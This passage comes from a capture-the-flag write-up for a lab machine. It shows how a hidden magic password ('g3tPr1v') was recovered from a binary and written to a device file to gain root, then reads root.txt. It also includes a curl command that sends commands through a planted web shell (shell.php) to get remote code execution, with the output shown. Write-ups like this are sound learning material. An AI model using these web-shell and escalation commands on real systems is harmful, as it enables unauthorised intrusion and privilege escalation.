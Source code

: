 That `memcmp` compares two strings - the input stream and `magic`, the
result of a`snprintf` call:

![](/img/1566759813927.png)

Looking at bit up, I can determine that that call looks like:



    snprintf(magic, 8, "%s%s", a, b)



`a` and `b` are set earlier in the function:

![](/img/1566759883542.png)

So the check is input against `g3tPr1v`.

### root Priv

I'll take this new password back and give it another try in my stateful
shell, and it works:



    $ 
    echo "g3tPr1v" > /dev/ttyR0
    $ 
    id
    uid=0(root) gid=0(root) groups=0(root),1004(customers)



Now I can get `root.txt`:



    $ 
    cat /root/root.txt
    4a08d817************************



I could also do this without a stateful shell, just using the RCE. I'll
demonstrate with curl:



    root@kali# curl -G http://sec03.rentahacker.htb/shell.php --data-urlencode 'hidden=echo "g3tPr1v" > /dev/ttyR0; id; cat /root/root.txt'
    uid=0(root) gid=0(root) groups=0(root),1004(customers)
    4a08d817************************



## Beyond Root

### Whois SQLi

#### More SQLi
